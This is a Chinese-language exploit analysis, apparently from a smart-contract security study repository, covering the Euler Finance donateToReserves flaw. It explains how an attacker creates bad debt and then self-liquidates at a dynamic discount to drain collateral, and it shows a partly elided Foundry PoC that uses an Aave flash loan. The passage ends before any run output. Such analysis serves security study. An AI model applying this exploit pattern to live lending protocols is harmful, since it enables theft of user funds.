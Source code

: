 ```
    // 更新储备金余额
    assetStorage.reserveBalance = assetCache.reserveBalance = encodeSmallAmount(assetCache.reserveBalance + amount);

    emit Withdraw(assetCache.underlying, account, amount);
    emit ViaProxy_Transfer(proxyAddr, account, address(0), amount);
    // 记录资产状态
    logAssetStatus(assetCache);
}

```

乍一看，似乎整体流程并没有太大问题，但是仔细分析，我们可以发现`donateToReserves`函数是否处于清算状态，导致直接触发软清算机制。同时，软清算采用的是动态更新折扣，根据借款人的健康状况（即抵押品价值相对于债务的比率）动态调整清算折扣。这为攻击者创造了有利可图的套利机会（创建资不抵债的状况，通过其他合约实现自我清算），使他们可以吸走大量抵押品，而无需抵押品或偿还债务。

## PoC
完整的PoC在[这里](https://github.com/Chocolatieee0929/ContractSafetyStudy/blob/main/Security/PoC/EulerFinance.t.sol)。
重要部分如下：
```
contract EulerFinancePoC is Test { // 模拟攻击
   ...  
    function testExploit_Euler() public {
        ...
        console.log("-------------------------------- Start Exploit ----------------------------------");
        AaveLendingPool.flashLoan(address(this), assets, amounts, modes, address(this), params, 0);

        console.log("-------------------------------- After Exploit ----------------------------------");
        uint256 eulerTokenAfter = DAI.balanceOf(EulerProtocol);
        emit log_named_decimal_uint ("DAI.balanceOf(EulerProtocol):", eulerTokenAfter, 18);
        emit log_named_decimal_uint ("EulerProtocol loss:", eulerToken - eulerTokenAfter, 18);
    }

    function executeOperation(
        address[] calldata assets, 
        uint256[] calldata amounts, 
        uint256[] calldata premiums, 
        address initiator, 
        bytes calldata params
    ) external returns (bool) {
        DAI.approve(address(AaveLendingPool), type(uint256).max);
        borrowContract = new Borrow();
        liquidatorContract = new liquidator();
        DAI.transfer(address(borrowContract), DAI.balanceOf(address(this)));
        // 制造烂账
        borrowContract.attack_step1(address(borrowContract), address(liquidatorContract));
        // 自我清算
        liquidatorContract.attack_step2(address(borrowContract), address(liquidatorContract));
        return true;
    }
}

```
运行结果如下：
